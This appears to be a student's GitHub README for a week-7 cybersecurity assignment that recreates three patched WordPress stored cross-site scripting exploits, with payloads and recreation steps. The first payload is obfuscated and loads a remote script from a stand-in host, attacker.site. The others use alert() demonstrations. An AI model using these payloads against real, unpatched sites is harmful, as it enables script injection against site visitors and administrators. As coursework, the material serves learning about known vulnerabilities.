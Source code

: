 # CyberSecurityWeek7
My assignment for week 7

Exploit 1:

[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/7945
    Reference: http://klikki.fi/adv/wordpress2.html
    Reference: http://packetstormsecurity.com/files/131644/
    Reference: https://www.exploit-db.com/exploits/36844/
[i] Fixed in: 4.2.1

Source Code:

```html
<a title='xxx onmouseover=eval(unescape(/var%20a%3Ddocument.createElement%28%27script%27%29%3Ba.setAttribute%28%27src%27%2C%27https%3A%2f%2fattacker.site%2fexploit.js%27%29%3Bdocument.head.appendChild%28a%29/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
```

Guide for recreation:

I made a comment on a post not as an admin using XSS. 
The comment content had to be greater than 64kb in order to work. 
After the comment was submitted, I approved the comment as the admin, and went to view the post with the comments. 
On the load of the page the exploit was ran. This vulnerability was patched in WordPress 4.2.1.


<img src="XSS Exploit 1.gif" width="800">


Exploit 2:

[!] Title: WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8111
    Reference: https://wordpress.org/news/2015/07/wordpress-4-2-3/
    Reference: https://twitter.com/klikkioy/status/624264122570526720
    Reference: https://klikki.fi/adv/wordpress3.html
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623
[i] Fixed in: 4.2.3

Source Code:

```html
<a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>
```

Guide for recreation:

I made a post as a user with Author privileges using the source code as the content of the post. 
I then signed in as an admin and when viewing the post, the script ran on mouseover of the post. 
This vulnerability was patched in WordPress 4.2.3.


<img src="XSS Exploit 2.gif" width="800">


Exploit 3:

[!] Title: WordPress <= 4.3 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8186
    Reference: https://wordpress.org/news/2015/09/wordpress-4-3-1/
    Reference: http://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
    Reference: http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714
[i] Fixed in: 4.2.5

Source Code: 
                          
```html
TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">Click me</a>
```

Guide for recreation:
I made a post as a user with Author privileges using the source code for the content of the post. 
I then signed in as an admin and then when going to click the link, the script runs on mouseover instead of onclick.
This vulnerability was patched in WordPress 4.2.5.


<img src="XSS Exploit 3.gif" width="800">
